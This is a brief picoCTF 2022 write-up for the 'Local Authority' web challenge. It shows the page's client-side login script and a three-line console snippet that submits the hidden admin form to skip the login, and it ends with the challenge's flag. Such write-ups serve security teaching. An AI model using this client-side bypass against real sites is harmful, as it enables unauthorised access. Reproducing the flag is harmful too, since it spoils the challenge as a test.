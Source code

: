 # Local Authority
- Difficulty: Easy
- Category: `Web Exploitatino`  
- Date: 2024-09-13  
tags: `picoCTF 2022` `inspector`  
refer to [Source]()

## Solution
Just type any thing to login. Then in element, can see this
``` javascript
function filter(string) {
    filterPassed = true;
    for (let i =0; i < string.length; i++){
        cc = string.charCodeAt(i);
        
        if ( (cc >= 48 && cc <= 57) ||
            (cc >= 65 && cc <= 90) ||
            (cc >= 97 && cc <= 122) )
        {
        filterPassed = true;     
        }
        else
        {
        return false;
        }
    }
    
    return true;
    }

    window.username = "test";
    window.password = "test";
    
    usernameFilterPassed = filter(window.username);
    passwordFilterPassed = filter(window.password);
    
    if ( usernameFilterPassed && passwordFilterPassed ) {
    
    loggedIn = checkPassword(window.username, window.password);
    
    if(loggedIn)
    {
        document.getElementById('msg').innerHTML = "Log In Successful";
        document.getElementById('adminFormHash').value = "2196812e91c29df34f5e217cfd639881";
        document.getElementById('hiddenAdminForm').submit();
    }
    else
    {
        document.getElementById('msg').innerHTML = "Log In Failed";
    }
    }
    else {
        document.getElementById('msg').innerHTML = "Illegal character in username or password."
}
```
Then paste this in consolo.
``` javascript
document.getElementById('msg').innerHTML = "Log In Successful";
document.getElementById('adminFormHash').value = "2196812e91c29df34f5e217cfd639881";
document.getElementById('hiddenAdminForm').submit();
```
Now, can see flag show in the web page.
``` plain
picoCTF{j5_15_7r4n5p4r3n7_05df90c8}
```

### Improving

